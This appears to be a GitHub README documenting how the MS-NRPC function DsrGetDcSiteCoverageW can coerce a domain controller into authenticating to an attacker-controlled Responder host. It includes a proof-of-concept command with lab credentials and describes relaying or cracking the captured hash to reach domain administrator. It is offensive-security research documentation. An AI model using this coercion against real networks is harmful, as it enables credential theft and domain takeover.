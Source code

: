 # MS-NRPC - Remote call to DsrGetDcSiteCoverageW (opnum 38)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`DsrGetDcSiteCoverageW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f)

+ **Function operation number**: `38`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`DsrGetDcSiteCoverageW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DsrGetDcSiteCoverageW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS DsrGetDcSiteCoverageW(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [out] PNL_SITE_NAME_ARRAY* SiteNames
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `DsrGetDcSiteCoverageW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f